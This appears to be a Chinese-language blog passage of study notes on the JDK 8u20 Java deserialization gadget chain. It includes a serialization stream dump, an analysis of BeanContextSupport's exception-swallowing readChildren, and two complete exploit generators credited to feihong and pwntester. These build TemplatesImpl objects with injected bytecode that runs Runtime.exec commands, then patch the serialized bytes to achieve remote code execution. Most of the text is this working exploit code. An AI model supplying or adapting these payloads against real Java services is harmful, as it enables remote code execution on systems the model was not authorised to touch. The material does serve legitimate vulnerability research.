E:\java\javatools\SerializationDumper\SerializationDumper-master>java -jar SerializationDumper.jar -r E:\java\JavaSec\JavaSerialize\beanContextSupport2

STREAM_MAGIC - 0xac ed
STREAM_VERSION - 0x00 05
Contents
  TC_OBJECT - 0x73
    TC_CLASSDESC - 0x72
      className
        Length - 45 - 0x00 2d
        Value - SerializeChains.Chains8u20.BeanContextSupport - 0x53657269616c697a65436861696e732e436861696e73387532302e4265616e436f6e74657874537570706f7274
      serialVersionUID - 0x00 00 00 00 00 00 00 14
      newHandle 0x00 7e 00 00
      classDescFlags - 0x03 - SC_WRITE_METHOD | SC_SERIALIZABLE
      fieldCount - 0 - 0x00 00
      classAnnotations
        TC_ENDBLOCKDATA - 0x78
      superClassDesc
        TC_NULL - 0x70
    newHandle 0x00 7e 00 01
    classdata
      SerializeChains.Chains8u20.BeanContextSupport
        values
        objectAnnotation
          TC_OBJECT - 0x73
            TC_CLASSDESC - 0x72
              className
                Length - 54 - 0x00 36
                Value - SerializeChains.Chains8u20.AnnotationInvocationHandler - 0x53657269616c697a65436861696e732e436861696e73387532302e416e6e6f746174696f6e496e766f636174696f6e48616e646c6572
              serialVersionUID - 0x00 00 00 00 00 00 00 0a
              newHandle 0x00 7e 00 02
              classDescFlags - 0x02 - SC_SERIALIZABLE
              fieldCount - 1 - 0x00 01
              Fields
                0:
                  Int - I - 0x49
                  fieldName
                    Length - 4 - 0x00 04
                    Value - zero - 0x7a65726f
              classAnnotations
                TC_ENDBLOCKDATA - 0x78
              superClassDesc
                TC_NULL - 0x70
            newHandle 0x00 7e 00 03
            classdata
              SerializeChains.Chains8u20.AnnotationInvocationHandler
                values
                  zero
                    (int)0 - 0x00 00 00 00
          TC_ENDBLOCKDATA - 0x78
  TC_REFERENCE - 0x71
    Handle - 8257539 - 0x00 7e 00 03
```

需要注意一个点，因为根据`成员抛弃`机制我们知道，如果序列化流新增的这个值是一个对象的话，那么会为这个值分配一个 `Handle`，但由于我们是手动插入`Handle`，所以需要修改引用`Handle`的值（就是`TC_ENDBLOCKDATA`块中`handle`的引用值）为`AnnotationInvocationHandler`对象的`handle`地址

转换成十六进制结果是

```java
ac ed 00 05 73 72 00 2d 53657269616c697a65436861696e732e436861696e73387532302e4265616e436f6e74657874537570706f7274 
00 00 00 00 00 00 00 14 03 00 00 78 70 73 72 00 36 53657269616c697a65436861696e732e436861696e73387532302e416e6e6f746174696f6e496e766f636174696f6e48616e646c6572 00 00 00 00 00 00 00 0a 02 00 01 49 00 04 7a65726f 78 70 00 00 00 00 78 71 00 7e 00 03
```

但是newhandle实际上不会被真正的写入文件，如果我们把这里的`007e0000`加入到序列化数据中，会发生异常，从而终止反序列化进程。所以需要把这里的newhandle去掉

所以最后的结果是

```java
aced 0005 7372 002d 5365 7269 616c 697a 
6543 6861 696e 732e 4368 6169 6e73 3875
3230 2e42 6561 6e43 6f6e 7465 7874 5375
7070 6f72 7400 0000 0000 0000 1403 0000 
7870 7372 0036 5365 7269 616c 697a 6543 
6861 696e 732e 4368 6169 6e73 3875 3230
2e41 6e6e 6f74 6174 696f 6e49 6e76 6f63
6174 696f 6e48 616e 646c 6572 0000 0000 
0000 000a 0200 0149 0004 7a65 726f 7870
0000 0000 7871 007e 0003
```

我们替换掉一开始的Test1



再次运行代码

```java
package SerializeChains.Chains8u20;

import java.io.*;

public class Test implements Serializable {
    public static void main(String[] args) throws Exception {
//        AnnotationInvocationHandler annotationInvocationHandler = new AnnotationInvocationHandler(0);
//        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("Test2"));
//        oos.writeObject(annotationInvocationHandler);
//        oos.close();

        ObjectInputStream in = new ObjectInputStream(new FileInputStream("Test1"));
        System.out.println(in.readObject().toString());
        AnnotationInvocationHandler str = (AnnotationInvocationHandler)in.readObject();
        System.out.println(str.toString());
        str.exec("calc");
    }
}
```



成功执行RCE，并且可以看到，我们第一次反序列还原的对象是`com.panda.sec.BeanContextSupport`，第二次反序列化还原的对象是`com.panda.sec.AnnotationInvocationHandler`，也正对应了我们自己手动插入数据的顺序

## 链子分析

基于上面的Try-Catch嵌套，我们可以尝试寻找一个类，满足以下条件：

1. 实现Serializable接口可序列化
2. 重写了readObject方法
3. readObject方法中存在对readObject方法的调用，并且对调用的readObject方法进行了异常捕获

甄别说，还真的有！不得不佩服8u20作者

### BeanContextSupport#readObject

在java.beans.beancontext.BeanContextSupport类中

```java
    private synchronized void readObject(ObjectInputStream ois) throws IOException, ClassNotFoundException {

        synchronized(BeanContext.globalHierarchyLock) {
            ois.defaultReadObject();

            initialize();

            bcsPreDeserializationHook(ois);

            if (serializable > 0 && this.equals(getBeanContextPeer()))
                readChildren(ois);

            deserialize(ois, bcmListeners = new ArrayList(1));
        }
    }
```

调用了一个readChildren方法

```java
    public final void readChildren(ObjectInputStream ois) throws IOException, ClassNotFoundException {
        int count = serializable;

        while (count-- > 0) {
            Object                      child = null;
            BeanContextSupport.BCSChild bscc  = null;

            try {
                child = ois.readObject();
                bscc  = (BeanContextSupport.BCSChild)ois.readObject();
            } catch (IOException ioe) {
                continue;
            } catch (ClassNotFoundException cnfe) {
                continue;
            }


            synchronized(child) {
                BeanContextChild bcc = null;

                try {
                    bcc = (BeanContextChild)child;
                } catch (ClassCastException cce) {
                    // do nothing;
                }

                if (bcc != null) {
                    try {
                        bcc.setBeanContext(getBeanContextPeer());

                       bcc.addPropertyChangeListener("beanContext", childPCL);
                       bcc.addVetoableChangeListener("beanContext", childVCL);

                    } catch (PropertyVetoException pve) {
                        continue;
                    }
                }

                childDeserializedHook(child, bscc);
            }
        }
    }
```

这里在try中有一个readObject方法，并且在捕获异常后是采用的continue处理，简直不要太完美

根据文章中师傅的描述：

在上文中提到`ObjectAnnotation`这个概念，并且其实可以发现，如果存在`ObjectAnnotation`结构，那么一般是由`TC_ENDBLOCKDATA - 0x78`去标记结尾的，但是这里其实存在一个问题，我们知道在jdk7u21修复中是因为`IllegalArgumentException`异常被捕获后抛出了`java.io.InvalidObjectException`，虽然这里我们可以利用`BeanContextSupport`来强制序列化流程继续下去，但是抛出的异常会导致`BeanContextSupport`的`ObjectAnnotation`中`TC_ENDBLOCKDATA - 0x78`结尾标志无法被正常处理，如果我们不手动删除这个`TC_ENDBLOCKDATA - 0x78`那么会导致后面的结构归在`ObjectAnnotation`结构中，从而读取错误，反序列化出来的数据不是我们预期数据。所以我们在生成`BeanContextSupport`的`ObjectAnnotation`中不能按照正规的序列化结构，需要将标记结尾的结构`TC_ENDBLOCKDATA - 0x78`删除

但是如果我们把标记结尾的结构`TC_ENDBLOCKDATA - 0x78`删除，就会导致`SerializationDumper`工具查看`jdk8u20`的序列化数据结构出错

所以我们的思路是：在`LinkedHashSet`中强行插入一个`BeanContextSupport`类型的字段值，由于在java反序列化的流程中，一般都是首先还原对象中字段的值，然后才会还原`objectAnnotation`结构中的值。所以他首先会反序列化LinkedHashSet，然后才会反序列化LinkedHashSet的字段，其中就有BeanContextSupport类型的字段。在反序列化BeanContextSupport的过程中，因为BeanContextSupport的字段有一个值为 `Templates.class` 的 `AnnotationInvocationHandler` 类的对象的字段，所以会去还原为 `Templates.class` 的 `AnnotationInvocationHandler` 类的对象，后面就是正常的7u21的流程了。

然后我们看看EXP

先放一个我觉得最好理解的版本，feihong师傅的exp，原理就是利用LinkedHashSet反序列化时会一一反序列化map中对象的机制，先将`BeanContextSupport`放在最前面，让其产生非法的`AnnotationInvocationHandler`对象的newHandle，后续再正常地执行JDK7u21

## EXP1

完整源码：https://github.com/feihong-cs/jre8u20_gadget

```java
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.ClassClassPath;
import javassist.ClassPool;
import javassist.CtClass;

import javax.xml.transform.Templates;
import java.beans.beancontext.BeanContextSupport;
import java.io.*;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.util.HashMap;
import java.util.HashSet;
import java.util.LinkedHashSet;
import java.util.Map;


public class jdk8u20EXP {
    public static TemplatesImpl generateEvilTemplates() throws Exception {
        ClassPool pool = ClassPool.getDefault();
        pool.insertClassPath(new ClassClassPath(AbstractTranslet.class));
        CtClass cc = pool.makeClass("Cat");
        String cmd = "java.lang.Runtime.getRuntime().exec(\"calc.exe\");";
        // 创建 static 代码块，并插入代码
        cc.makeClassInitializer().insertBefore(cmd);
        String randomClassName = "EvilCat" + System.nanoTime();
        cc.setName(randomClassName);
        cc.setSuperclass(pool.get(AbstractTranslet.class.getName()));
        // 转换为bytes
        byte[] classBytes = cc.toBytecode();
        byte[][] targetByteCodes = new byte[][]{classBytes};
        TemplatesImpl templates = TemplatesImpl.class.newInstance();
        setFieldValue(templates, "_bytecodes", targetByteCodes);
        // 进入 defineTransletClasses() 方法需要的条件
        setFieldValue(templates, "_name", "name" + System.nanoTime());
        setFieldValue(templates, "_class", null);
        setFieldValue(templates, "_tfactory", new TransformerFactoryImpl());


        return templates;
    }

    public static void main(String[] args) throws Exception {
        // jdk 7u21
        TemplatesImpl templates = generateEvilTemplates();
        HashMap map = new HashMap();
        map.put("f5a5a608", "zero");

        Constructor handlerConstructor = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler").getDeclaredConstructor(Class.class, Map.class);
        handlerConstructor.setAccessible(true);
        InvocationHandler tempHandler = (InvocationHandler) handlerConstructor.newInstance(Templates.class, map);

        // 为tempHandler创造一层代理
        Templates proxy = (Templates) Proxy.newProxyInstance(jdk7u21.class.getClassLoader(), new Class[]{Templates.class}, tempHandler);
        // 实例化HashSet，并将两个对象放进去
        HashSet set = new LinkedHashSet();
        // 将恶意templates设置到map中
        map.put("f5a5a608", templates);
        // jdk7u21 end


        BeanContextSupport bcs = new BeanContextSupport();
        Class cc = Class.forName("java.beans.beancontext.BeanContextSupport");

        Field beanContextChildPeer = cc.getSuperclass().getDeclaredField("beanContextChildPeer");
        beanContextChildPeer.set(bcs, bcs);

        set.add(bcs);

        //序列化
        ByteArrayOutputStream baous = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baous);

        oos.writeObject(set);
        oos.writeObject(tempHandler);
        oos.writeObject(templates);
        oos.writeObject(proxy);
        oos.close();

        byte[] bytes = baous.toByteArray();
        System.out.println("[+] Modify HashSet size from  1 to 3");
        bytes[89] = 3; //修改hashset的长度（元素个数）

        //调整 TC_ENDBLOCKDATA 标记的位置，先暂时删除
        //0x73 = 115, 0x78 = 120
        //0x73 for TC_OBJECT, 0x78 for TC_ENDBLOCKDATA
        for(int i = 0; i < bytes.length; i++){
            if(bytes[i] == 0 && bytes[i+1] == 0 && bytes[i+2] == 0 & bytes[i+3] == 0 &&
                    bytes[i+4] == 120 && bytes[i+5] == 120 && bytes[i+6] == 115){
                System.out.println("[+] Delete TC_ENDBLOCKDATA at the end of HashSet");
                bytes = Util.deleteAt(bytes, i + 5);
                break;
            }
        }

        //将 serializable 的值修改为 1
        //0x73 = 115, 0x78 = 120
        //0x73 for TC_OBJECT, 0x78 for TC_ENDBLOCKDATA
        for(int i = 0; i < bytes.length; i++){
            if(bytes[i] == 120 && bytes[i+1] == 0 && bytes[i+2] == 1 && bytes[i+3] == 0 &&
                    bytes[i+4] == 0 && bytes[i+5] == 0 && bytes[i+6] == 0 && bytes[i+7] == 115){
                System.out.println("[+] Modify BeanContextSupport.serializable from 0 to 1");
                bytes[i+6] = 1;
                break;
            }
        }

        /**
         TC_BLOCKDATA - 0x77
         Length - 4 - 0x04
         Contents - 0x00000000
         TC_ENDBLOCKDATA - 0x78
         **/

        //把这部分内容先删除，再附加到 AnnotationInvocationHandler 之后
        //目的是让 AnnotationInvocationHandler 变成 BeanContextSupport 的数据流
        //0x77 = 119, 0x78 = 120
        //0x77 for TC_BLOCKDATA, 0x78 for TC_ENDBLOCKDATA
        for(int i = 0; i < bytes.length; i++){
            if(bytes[i] == 119 && bytes[i+1] == 4 && bytes[i+2] == 0 && bytes[i+3] == 0 &&
                    bytes[i+4] == 0 && bytes[i+5] == 0 && bytes[i+6] == 120){
                System.out.println("[+] Delete TC_BLOCKDATA...int...TC_BLOCKDATA at the End of BeanContextSupport");
                bytes = Util.deleteAt(bytes, i);
                bytes = Util.deleteAt(bytes, i);
                bytes = Util.deleteAt(bytes, i);
                bytes = Util.deleteAt(bytes, i);
                bytes = Util.deleteAt(bytes, i);
                bytes = Util.deleteAt(bytes, i);
                bytes = Util.deleteAt(bytes, i);
                break;
            }
        }

        /*
              serialVersionUID - 0x00 00 00 00 00 00 00 00
                  newHandle 0x00 7e 00 28
                  classDescFlags - 0x00 -
                  fieldCount - 0 - 0x00 00
                  classAnnotations
                    TC_ENDBLOCKDATA - 0x78
                  superClassDesc
                    TC_NULL - 0x70
              newHandle 0x00 7e 00 29
         */
        //0x78 = 120, 0x70 = 112
        //0x78 for TC_ENDBLOCKDATA, 0x70 for TC_NULL
        for(int i = 0; i < bytes.length; i++){
            if(bytes[i] == 0 && bytes[i+1] == 0 && bytes[i+2] == 0 && bytes[i+3] == 0 &&
                    bytes[i + 4] == 0 && bytes[i+5] == 0 && bytes[i+6] == 0 && bytes[i+7] == 0 &&
                    bytes[i+8] == 0 && bytes[i+9] == 0 && bytes[i+10] == 0 && bytes[i+11] == 120 &&
                    bytes[i+12] == 112){
                System.out.println("[+] Add back previous delte TC_BLOCKDATA...int...TC_BLOCKDATA after invocationHandler");
                i = i + 13;
                bytes = Util.addAtIndex(bytes, i++, (byte) 0x77);
                bytes = Util.addAtIndex(bytes, i++, (byte) 0x04);
                bytes = Util.addAtIndex(bytes, i++, (byte) 0x00);
                bytes = Util.addAtIndex(bytes, i++, (byte) 0x00);
                bytes = Util.addAtIndex(bytes, i++, (byte) 0x00);
                bytes = Util.addAtIndex(bytes, i++, (byte) 0x00);
                bytes = Util.addAtIndex(bytes, i++, (byte) 0x78);
                break;
            }
        }

        //将 sun.reflect.annotation.nAnnotationInvocationHandler 的 classDescFlags 由 SC_SERIALIZABLE 修改为 SC_SERIALIZABLE | SC_WRITE_METHOD
        //         //这一步其实不是通过理论推算出来的，是通过debug 以及查看 pwntester的 poc 发现需要这么改
        //         //原因是如果不设置 SC_WRITE_METHOD 标志的话 defaultDataEd = true，导致 BeanContextSupport -> deserialize(ois, bcmListeners = new ArrayList(1))
        // -> count = ois.readInt(); 报错，无法完成整个反序列化流程
        // 没有 SC_WRITE_METHOD 标记，认为这个反序列流到此就结束了
        // 标记： 7375 6e2e 7265 666c 6563 --> sun.reflect...
        for(int i = 0; i < bytes.length; i++){
            if(bytes[i] == 115 && bytes[i+1] == 117 && bytes[i+2] == 110 && bytes[i+3] == 46 &&
                    bytes[i + 4] == 114 && bytes[i+5] == 101 && bytes[i+6] == 102 && bytes[i+7] == 108 ){
                System.out.println("[+] Modify sun.reflect.annotation.AnnotationInvocationHandler -> classDescFlags from SC_SERIALIZABLE to " +
                        "SC_SERIALIZABLE | SC_WRITE_METHOD");
                i = i + 58;
                bytes[i] = 3;
                break;
            }
        }

        //加回之前删除的 TC_BLOCKDATA，表明 HashSet 到此结束
        System.out.println("[+] Add TC_BLOCKDATA at end");
        bytes = Util.addAtLast(bytes, (byte) 0x78);


        FileOutputStream fous = new FileOutputStream("jre8u20.ser");
        fous.write(bytes);

        //反序列化
        FileInputStream fis = new FileInputStream("jre8u20.ser");
        ObjectInputStream ois = new ObjectInputStream(fis);
        ois.readObject();
        ois.close();
    }

    public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }
}

```

实现流程大致如下：



## EXP2

首先就是pwntester师傅通过手动构造反序列化的字节码去形成一个完整的链子

源码来源：https://github.com/pwntester/JRE8u20_RCE_Gadget

```java
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import util.Converter;
import util.Gadgets;
import util.Reflections;
import util.XXD;

import javax.xml.transform.Templates;
import java.beans.beancontext.BeanContextChildSupport;
import java.beans.beancontext.BeanContextSupport;
import java.io.ByteArrayInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.lang.reflect.Proxy;
import java.util.HashMap;
import java.util.HashSet;
import java.util.LinkedHashSet;

import static java.io.ObjectStreamConstants.*;

public class ExploitGenerator {

    public static void main(String[] args) throws Exception {

        String command = "pwnalert";

        TemplatesImpl templates = null;
        try {
            templates =  Gadgets.createTemplatesImpl(command);
            Reflections.setFieldValue(templates, "_auxClasses", null);

        } catch (Exception e) {
            e.printStackTrace();
        }

        byte[] bytes = Converter.toBytes(getData(templates));

        XXD.print(bytes);

        // Adjust references
        patch(bytes);

        FileOutputStream fos = new FileOutputStream("exploit.ser");
        fos.write(bytes);
        fos.close();

        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(bytes));
        ois.readObject();

    }

    public static byte[] patch(byte[] bytes) {
        for (int i = 0; i < bytes.length; i++) {
            if (bytes[i] == 0x71 && bytes[i+1] == 0x00 && bytes[i+2] == 0x7e && bytes[i+3] ==0x00) {
                i = i + 4;
                System.out.print("Adjusting reference from: " + bytes[i]);
                if (bytes[i] == 1) bytes[i] = 5;        // (String)
                if (bytes[i] == 10) bytes[i] = 13;      // (ObjectStreamClass) [[B
                if (bytes[i] == 12) bytes[i] = 25;      // (BeanContextSupport)
                if (bytes[i] == 2) bytes[i] = 9;        // (TemplatesImpl)
                if (bytes[i] == 16) bytes[i] = 29;      // (InvocationHandler)
                System.out.println(" to: " + bytes[i]);
            }
        }
        return bytes;
    }

    static Object[] getData(TemplatesImpl templates) {

        HashMap<String, Object> map = new HashMap();
        // We need map.put("f5a5a608", templates) but ObjectOutputStream does not create a
        // reference for templates so that its exactly the same instance as the one added
        // directly to the LinkedHashSet. So instead, we can add a string since OOS
        // will create a reference to the existing string, and then I can manually
        // replace the reference with one pointing to the templates instance in the LinkedHashSet
        map.put("f5a5a608", "f5a5a608");

        int offset = 0;
        return new Object[]{
                STREAM_MAGIC, STREAM_VERSION, // stream headers

                // (1) LinkedHashSet
                TC_OBJECT,
                TC_CLASSDESC,
                LinkedHashSet.class.getName(),
                -2851667679971038690L,
                (byte) 2,              // flags
                (short) 0,             // field count
                TC_ENDBLOCKDATA,
                TC_CLASSDESC,          // super class
                HashSet.class.getName(),
                -5024744406713321676L,
                (byte) 3,              // flags
                (short) 0,             // field count
                TC_ENDBLOCKDATA,
                TC_NULL,               // no superclass

                // Block data that will be read by HashSet.readObject()
                // Used to configure the HashSet (capacity, loadFactor, size and items)
                TC_BLOCKDATA,
                (byte) 12,
                (short) 0,
                (short) 16,            // capacity
                (short) 16192, (short) 0, (short) 0, // loadFactor
                (short) 2,             // size

                // (2) First item in LinkedHashSet
                templates, // TemplatesImpl instance with malicious bytecode

                // (3) Second item in LinkedHashSet
                // Templates Proxy with AIH handler
                TC_OBJECT,
                TC_PROXYCLASSDESC,          // proxy declaration
                1,                          // one interface
                Templates.class.getName(),  // the interface implemented by the proxy
                TC_ENDBLOCKDATA,
                TC_CLASSDESC,
                Proxy.class.getName(),      // java.lang.Proxy class desc
                -2222568056686623797L,      // serialVersionUID
                SC_SERIALIZABLE,            // flags
                (short) 2,                  // field count
                (byte) 'L', "dummy", TC_STRING, "Ljava/lang/Object;", // dummy non-existent field
                (byte) 'L', "h", TC_STRING, "Ljava/lang/reflect/InvocationHandler;", // h field
                TC_ENDBLOCKDATA,
                TC_NULL,                    // no superclass

                // (3) Field values
                // value for the dummy field <--- BeanContextSupport.
                // this field does not actually exist in the Proxy class, so after deserialization this object is ignored.
                // (4) BeanContextSupport
                TC_OBJECT,
                TC_CLASSDESC,
                BeanContextSupport.class.getName(),
                -4879613978649577204L,      // serialVersionUID
                (byte) (SC_SERIALIZABLE | SC_WRITE_METHOD),
                (short) 1,                  // field count
                (byte) 'I', "serializable", // serializable field, number of serializable children
                TC_ENDBLOCKDATA,
                TC_CLASSDESC,               // super class
                BeanContextChildSupport.class.getName(),
                6328947014421475877L,
                SC_SERIALIZABLE,
                (short) 1,                  // field count
                (byte) 'L', "beanContextChildPeer", TC_STRING, "Ljava/beans/beancontext/BeanContextChild;",
                TC_ENDBLOCKDATA,
                TC_NULL,                    // no superclass

                // (4) Field values
                // beanContextChildPeer must point back to this BeanContextSupport for BeanContextSupport.readObject to go into BeanContextSupport.readChildren()
                TC_REFERENCE, baseWireHandle + 12,
                // serializable: one serializable child
                1,

                // now we add an extra object that is not declared, but that will be read/consumed by readObject
                // BeanContextSupport.readObject calls readChildren because we said we had one serializable child but it is not in the byte array
                // so the call to child = ois.readObject() will deserialize next object in the stream: the AnnotationInvocationHandler
                // At this point we enter the readObject of the aih that will throw an exception after deserializing its default objects

                // (5) AIH that will be deserialized as part of the BeanContextSupport
                TC_OBJECT,
                TC_CLASSDESC,
                "sun.reflect.annotation.AnnotationInvocationHandler",
                6182022883658399397L,       // serialVersionUID
                (byte) (SC_SERIALIZABLE | SC_WRITE_METHOD),
                (short) 2,                  // field count
                (byte) 'L', "type", TC_STRING, "Ljava/lang/Class;",         // type field
                (byte) 'L', "memberValues", TC_STRING, "Ljava/util/Map;",   // memberValues field
                TC_ENDBLOCKDATA,
                TC_NULL,                    // no superclass

                // (5) Field Values
                Templates.class,            // type field value
                map,                        // memberValues field value

                // note: at this point normally the BeanContextSupport.readChildren would try to read the
                // BCSChild; but because the deserialization of the AnnotationInvocationHandler above throws,
                // we skip past that one into the catch block, and continue out of readChildren

                // the exception takes us out of readChildren and into BeanContextSupport.readObject
                // where there is a call to deserialize(ois, bcmListeners = new ArrayList(1));
                // Within deserialize() there is an int read (0) and then it will read as many obejcts (0)

                TC_BLOCKDATA,
                (byte) 4,                   // block length
                0,                          // no BeanContextSupport.bcmListenes
                TC_ENDBLOCKDATA,

                // (6) value for the Proxy.h field
                TC_REFERENCE, baseWireHandle + offset + 16, // refer back to the AnnotationInvocationHandler

                TC_ENDBLOCKDATA,
        };
    }
}
```

实现过程：（看不懂，直接搬https://longlone.top/%E5%AE%89%E5%85%A8/java/java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96/%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E7%AF%87%E4%B9%8BJDK8u20/）

1. 构造`LinkedHashSet`的结构信息
2. 写入payload中`TemplatesImpl`对象
3. 构造`Templates Proxy`的结构，一共2个成员:
4. 这里定义了一个虚假的`dummy`成员,后续赋值为`BeanContextSupport`对象，虚假成员也会进行反序列化操作
5. 真实的`h`成员，后续赋值为`InvocationHandler`对象
6. 赋值`dummy`成员的值为`BeanContextSupport`对象，同时构建了其结构。这里为了`BeanContextSupport`对象反序列化时能走到`readChildren`方法，做了以下2个操作:
7. 设置`serializable`>0
8. 父类 `beanContextChildPeer`成员的值为当前对象: 由于`BeanContextChildSupport`对象已经出现过了,这里直接进行`TC_REFERENCE`引用对应的`Handle`
9. 插入非法的`AnnotationInvocationHandler`对象。前面分析过在`readChildren`方法中会再次进行`ois.readObject()`，因此会将此对象反序列化并且捕捉异常，产生一个Handle
10. 赋值`h`成员的值，这里使用`TC_REFERENCE`引用到刚刚产生的newHandle即可，需要手动计算handle值

## 总结

不得不说8u20给我上了很大的强度，很多地方还是没法第一时间理解到，只能说多看多理解了

参考文章：

https://longlone.top/%E5%AE%89%E5%85%A8/java/java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96/%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E7%AF%87%E4%B9%8BJDK8u20/

https://cloud.tencent.com/developer/article/2204437
